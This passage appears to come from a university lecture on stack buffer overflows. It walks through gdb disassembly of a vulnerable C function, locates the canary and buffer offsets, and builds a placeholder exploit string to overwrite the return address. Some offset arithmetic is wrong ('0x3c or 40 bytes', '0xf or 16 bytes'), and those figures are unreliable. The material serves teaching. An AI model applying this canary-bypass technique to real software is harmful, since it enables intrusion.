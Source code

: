 ``` {.example}
0x2c: LAAA
0x30: MAAA
0x34: NAAA
0x38: OAAA
 *** stack smashing detected ***: ./hex_to_char terminated
Aborted (core dumped)
```

If we look at the first part of the disassembly of the vulnerable foo
function in gdb:

``` {.example}
  0x080484bd <+0>:  push   ebp
   0x080484be <+1>: mov    ebp,esp
   0x080484c0 <+3>: push   esi
   0x080484c1 <+4>: push   ebx
   0x080484c2 <+5>: sub    esp,0x60
   0x080484c5 <+8>: mov    eax,DWORD PTR [ebp+0x8]
   0x080484c8 <+11>:    mov    DWORD PTR [ebp-0x4c],eax
   0x080484cb <+14>:    mov    eax,gs:0x14
   0x080484d1 <+20>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484d4 <+23>:    xor    eax,eax
   0x080484d6 <+25>:    mov    DWORD PTR [ebp-0x3c],0x0
   0x080484dd <+32>:    jmp    0x8048508 <foo+75>
   0x080484df <+34>:    lea    edx,[ebp-0x34]
   0x080484e2 <+37>:    mov    eax,DWORD PTR [ebp-0x3c]
   0x080484e5 <+40>:    add    edx,eax
   0x080484e7 <+42>:    mov    eax,DWORD PTR [ebp-0x4c]
   0x080484ea <+45>:    mov    eax,DWORD PTR [eax]
   0x080484ec <+47>:    mov    DWORD PTR [esp+0x8],edx
   0x080484f0 <+51>:    mov    DWORD PTR [esp+0x4],0x8048650
   0x080484f8 <+59>:    mov    DWORD PTR [esp],eax
   0x080484fb <+62>:    call   0x80483b0 <__isoc99_sscanf@plt>
```

We learn the following things:

-   The canary is at ebp-0xc
-   The buffer is at ebp-0x34
-   The int i is at ebp-0x3c

That means we have 0x3c or 40 bytes or 8 integers to get to the canary,
then it is 0xf or 16 bytes or 4 integers to overwrite the return
address. Our exploit needs to look something like this:

``` {.example}
user@si485H-base:demo$ ./hex_to_char `python -c "print '0x646170 '*10 + '0x6e616300 ' + '0x646170 '*4 +'0x72646461 ' + '0x706f6e '*10 + '0x6c656873 '*5"`
0x0: pad
0x4: pad
0x8: pad
0xc: pad
0x10: pad
0x14: pad
0x18: pad
0x1c: pad
0x20: pad
0x24: pad
0x28: can
0x2c: pad
0x30: pad
0x34: pad
0x38: pad
0x3c: addr
0x40: nop
0x44: nop
```